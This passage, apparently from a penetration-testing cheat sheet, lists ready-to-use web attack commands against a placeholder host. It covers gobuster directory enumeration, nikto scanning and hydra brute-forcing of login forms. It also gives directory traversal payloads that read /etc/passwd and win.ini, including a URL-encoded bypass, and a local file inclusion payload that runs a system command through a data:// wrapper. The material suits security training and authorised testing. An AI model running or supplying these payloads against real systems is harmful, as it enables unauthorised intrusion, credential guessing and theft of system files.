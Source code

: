 #### **Directory and File Discovery**

```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/big.txt  
```

#### **Vulnerability Scanning**

```bash
nikto -h <target_url>  
```

#### **Bruteforcing Web Login Forms**

```bash
hydra -L users.txt -P password.txt <IP or domain> http-post-form "/path:username=^USER^&password=^PASS^"
```

####   

## 3\. Web Attacks

### Directory Traversal

```bash
cat /etc/passwd  # Displaying file via absolute path  
cat ../../../etc/passwd  # Relative path traversal  
```

#### **Web Exploitation Example**

```bash
http://target.com/index.php?page=../../../../../../../../etc/passwd  
```

#### **Windows Version**

```bash
http://target.com/public/plugins/alertlist/../../../../../../../../Windows/win.ini  
```

#### **URL Encoding Bypass**

```bash
curl http://target.com/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  
```

* * *

### Local File Inclusion (LFI)

```bash
curl "http://target.com/index.php?page=data://text/plain,<?php system('id'); ?>"  
```

#### **PHP Wrapper for Base64 Encoding**
